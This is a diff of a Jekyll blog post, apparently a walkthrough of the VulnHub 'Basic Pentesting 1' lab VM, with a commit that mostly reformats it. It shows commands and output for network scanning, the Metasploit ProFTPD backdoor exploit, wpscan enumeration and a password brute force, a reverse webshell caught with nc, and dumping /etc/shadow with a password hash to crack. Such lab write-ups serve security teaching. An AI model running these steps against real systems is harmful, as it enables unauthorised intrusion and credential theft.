

Before and after one commit to jai-the-seeker/musings, a Jekyll site: the page built from _posts/2020-03-26-wlakthrough.markdown, in a window 1280 px wide and 1400 px high, scrolled down 2588 px. Shown: the whole window, without its empty margins (343-1165 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
post updated

````diff
--- a/_posts/2020-03-26-wlakthrough.markdown
+++ b/_posts/2020-03-26-wlakthrough.markdown
@@ -1,21 +1,24 @@
 ---
 layout: post
-title:  "Walkthrough Basic Pentesting"
+title:  "Walkthrough : Basic Pentesting"
 date:   2020-03-26 23:20:58 +0530
-tags: CTF update
+tags: [CTF, vulnhub]
 ---
 
+{% include toc %}
+
 In this walkthrough we are going to look at various steps of exploiting the end device. The `.ova` file can be downloaded from [www.vulnhub.com](https://www.vulnhub.com/entry/basic-pentesting-1,216/)
-## Scanning the network
+
+# Scanning the network
 One of the first steps is to scan the network for open ports and look for vulnerabilities. It can be done using tools/ utilities like `netdiscover` and `nmap`. We will see usage and outcome of both of these tools.
-### Using Netdiscover
+## Using Netdiscover
 `eth1` is the interface of the network on which you are listening to the incoming traffic. The interface can be checked by `ifconfig` command.
 
-{% highlight console %}
+```
 netdiscover -i eth1 -r 10.10.10.0/24
-{% endhighlight %}
+```
 
-{% highlight console %}
+```
 
  Currently scanning: Finished!   |   Screen View: Unique Hosts
 
@@ -28,25 +31,25 @@ netdiscover -i eth1 -r 10.10.10.0/24
  10.10.10.104    08:00:27:c5:db:a3      1      60  PCS Systemtechnik GmbH
  10.10.10.105    08:00:27:5b:29:29      1      60  PCS Systemtechnik GmbH
 
-{% endhighlight %}
+```
 
 [comment]: <> ( // ![screenshot]({{ '/assets/img/posts/netdiscover.png' | relative_url }}) )
 
-### Using Nmap
+## Using Nmap
 
 We can also use `nmap` for target discovery. Since we have already made the target discovery using `netdiscover`, we can move
 forward to find open ports and the services running on those ports.
 
 The option
-{% highlight console %}
+```
 -A: Enable OS detection, version detection, script scanning, and traceroute
-{% endhighlight %}
+```
 
-{% highlight console %}
+```
 nmap -A 10.10.10.104
-{% endhighlight %}
+```
 
-{% highlight console %}
+```
 Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-31 13:46 EDT
 Nmap scan report for vtcsec (10.10.10.104)
 Host is up (0.00065s latency).
@@ -72,26 +75,26 @@ Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
 TRACEROUTE
 HOP RTT     ADDRESS
 1   0.65 ms vtcsec (10.10.10.104)
-{% endhighlight %}
+```
 
 [comment]: <> ( ![screenshot]({{ '/assets/img/posts/nmap.png' | relative_url }}) )
 
-## Results of Scanning
+# Results of Scanning
 
 In our `nmap` scan results we have found three ports open with three different services running on these ports.
 We will try to exploit all these three services one by one to gain a foothold on the target device. Lets start with the easiest.
 
-##  Targeting FTP
+#  Targeting FTP
 
 From the scan results of `nmap` we have found that ftp version is `ProFTPD 1.3.3c`. We will now kickstart metasploit framework console to find, if we have some exploits for this version of FTP.
 
-{% highlight console %}
+```
 msfconsole
-{% endhighlight %}
+```
 
 Search the framework for any existing exploits.
 
-{% highlight console %}
+```
 msf5 > search ProFTPD 1.3.3c
 
 Matching Modules
@@ -106,11 +109,11 @@ Matching Modules
    5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
    6  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
 
-{% endhighlight %}
+```
 
 Now we have found an exploit with ranking of `excellent`. Lets try that out.
 
-{% highlight console %}
+```
 msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
 
 [*] Started reverse TCP double handler on 10.10.10.103:4444
@@ -131,9 +134,9 @@ pwd
 /
 whoami
 root
-{% endhighlight %}
+```
 
-## Targeting Website
+# Targeting Website
 
 As a first step we need to enumerate the directories of the website. For this we
 will use `DirBuster`. This tool is developed by OWASP Foundation to brute force
@@ -155,10 +158,10 @@ to resolve the links for the stylesheets. In order to overcome this challenge, w
 the domain name with the IPaddress. For this we will make an entry
 into the hosts file of our Kali PC.
 
-{% highlight console %}
+```
 nano /etc/hosts
 10.10.10.104  vtcsec
-{% endhighlight %}
+```
 
 The next step would be to scan for vulnerabilities in wordpress site. This can be done by using
 `wpscan`. It can be downloaded from [wpscan.org](https://wpscan.org/). This tool also comes pre-installed
@@ -170,7 +173,7 @@ and then try to bruteforce the passwords.
 
 Few of interesting options with `wpscan --enumerate` are
 
-{% highlight console %}
+```
 -e, --enumerate [OPTS]  Enumeration Process
                          Available Choices:
                           vp   Vulnerable plugins
@@ -182,18 +185,18 @@ Few of interesting options with `wpscan --enumerate` are
                                Range separator to use: '-'
                                Value if no argument supplied: 1-10
 
-{% endhighlight %}
+```
 
 Let us try to enumerate the users based on user ids.
 
-{% highlight console %}
+```
 wpscan --url http://10.10.10.104/secret --enumerate u --api-token SFQsH.....ayIm1ppfZZ8FH0
-{% endhighlight %}
+```
 
 `SFQsH.....ayIm1ppfZZ8FH0` is the `api-key` which you get after registering with
 [wpvulndb.com](https://wpvulndb.com/)
 
-{% highlight console %}
+```
  Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00
 
 [i] User(s) Identified:
@@ -201,23 +204,23 @@ wpscan --url http://10.10.10.104/secret --enumerate u --api-token SFQsH.....ayIm
 [+] admin
  | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
  | Confirmed By: Login Error Messages (Aggressive Detection)
-{% endhighlight %}
+```
 
 Once we have enumerated the users, we can bruteforce the password. We have downloaded
 the wordlist `rockyou-75.txt` from [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-75.txt)
 
-{% highlight console %}
+```
 wpscan --url http://10.10.10.104/secret --enumerate u --api-token SFQsH.....ayIm1ppfZZ8FH0 --usernames 'admin' --passwords "/home/student/rockyou-75.txt"
-{% endhighlight %}
+```
 
-{% highlight console %}
+```
 [+] Performing password attack on Wp Login against 1 user/s
 Trying admin / admin Time: 00:03:36 <======================================================> (19815 / 19815) 100.00% Time: 00:03:36
 [SUCCESS] - admin / admin
 
 [i] Valid Combinations Found:
  | Username: admin, Password: admin
-{% endhighlight %}
+```
 
 With *username* and *password* under our kitty, we can use them to upload the `webshells`. There is a lot of material
 avilable to create a webshell in php. You can refer [www.acunetix.com](https://www.acunetix.com/websitesecurity/introduction-web-shells/) for a simple webshell and for using `Weevely`, which is a lightweight PHP telnet-like web-shell.
@@ -234,23 +237,23 @@ reverse TCP connection.
 Once we upload the shell, which can be done with one of the ways mentioned in [www.hackingarticles.in](https://www.hackingarticles.in/wordpress-reverse-shell/), we get the `www-data` access. In order, for the webshell to connect back
 to the Kali attacker machine, we can run `nc`.
 
-{% highlight console %}
+```
 root@kali:~# nc -lvp 1234
 Listening on 0.0.0.0 1234
-{% endhighlight %}
+```
 
 We can also check the status of ports on which the `nc` is running
 
-{% highlight console %}
+```
 root@kali:~# netstat -plntu
 Active Internet connections (only servers)
 Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
 tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      18166/nc
-{% endhighlight %}
+```
 
 Once, the *webshell* makes a reverse TCP connection we get
 
-{% highlight console %}
+```
 root@kali:~# nc -lvp 1234
 Listening on 0.0.0.0 1234
 Connection received on vtcsec 37790
@@ -263,11 +266,11 @@ $ whoami
 www-data
 $ cat /etc/shadow
 marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::
-{% endhighlight %}
+```
 
 In order to find *users* in the linux system you can refer this article [linuxize.com](https://linuxize.com/post/how-to-list-users-in-linux/)
 
 The password can be obtained by cracking the hashes using `John the Ripper` or `hashcat`.
-{% highlight console %}
+```
 1800 | sha512crypt $6$, SHA512 (Unix)                   | Operating Systems
-{% endhighlight %}
+```
````
Also changed, not shown: _posts/2020-04-03-powershell-chapter-01.markdown (+8 -6 lines), _posts/2020-04-08-docker-php.markdown (renamed from _posts/2020-04-08-web-chapter-01.markdown, +7 -6 lines).
